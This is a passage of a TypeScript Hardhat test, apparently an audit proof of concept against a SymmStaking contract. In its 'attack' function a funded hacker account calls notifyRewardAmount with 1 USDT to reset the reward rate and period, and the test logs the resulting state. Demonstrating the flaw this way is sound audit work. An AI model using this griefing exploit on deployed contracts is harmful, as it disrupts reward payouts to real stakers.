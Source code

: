 ```typescript
		// 1. Mint an initial balance of 100 SYMM (staking token) to user1, user2, admin, and hacker.
		let initialBalance: bigint = e("100");
		await stakingToken.connect(admin).mint(user1.address, initialBalance);
		await stakingToken.connect(admin).mint(user2.address, initialBalance);
		await stakingToken.connect(admin).mint(admin.address, initialBalance);
		await stakingToken.connect(admin).mint(hacker.address, initialBalance);

		// 2. Deploy mock ERC20 tokens: USDT and USDC.
		const ERC20 = await ethers.getContractFactory("MockERC20");

		// Deploy USDT token and fund the hacker for testing.
		usdtToken = await ERC20.connect(admin).deploy("USDT", "USDT");
		await usdtToken.waitForDeployment();
		await usdtToken.transfer(hacker.address, 1000000);

		// Deploy USDC token.
		usdcToken = await ERC20.deploy("USDC", "USDC");
		await usdcToken.waitForDeployment();
	});

	describe("Deployment", function () {
		it("should have the correct admin", async () => {
			expect(
				await context.symmStaking.hasRole(
					await context.symmStaking.DEFAULT_ADMIN_ROLE(),
					await context.signers.admin.getAddress()
				)
			).to.be.true;
		});

		it("should set the correct staking token", async function () {
			expect(await context.symmStaking.stakingToken()).to.equal(
				await symmStaking.stakingToken()
			);
		});
	});

	describe.only("Notify leads to misbehaving", function () {
		// Attack function to manipulate the reward state.
		const attack = async () => {
			console.log(">>> [Attack] Initiating reward manipulation attack.");

			// Approve the minimal amount (1 USDT) for the notifyRewardAmount call.
			await usdtToken.connect(hacker).approve(await symmStaking.getAddress(), 1);
			console.log(">>> [Attack] Hacker approved 1 USDT for transfer.");

			// Call notifyRewardAmount with 1 USDT to reset the reward state.
			await symmStaking.connect(hacker).notifyRewardAmount(
				[await usdtToken.getAddress()],
				[1]
			);
			console.log(">>> [Attack] Hacker invoked notifyRewardAmount with 1 USDT.");

			// Log the updated reward state for USDT.
			const rewardInfo = await symmStaking.rewardState(await usdtToken.getAddress());
			console.log(">>> [Reward State] Duration:", rewardInfo.duration.toString());
			console.log(">>> [Reward State] Rate:", rewardInfo.rate.toString());
			console.log(">>> [Reward State] Period Finish:", rewardInfo.periodFinish.toString());
			console.log(">>> [Reward State] Last Updated:", rewardInfo.lastUpdated.toString());
			console.log(">>> [Reward State] Per Token Stored:", rewardInfo.perTokenStored.toString());
		};
```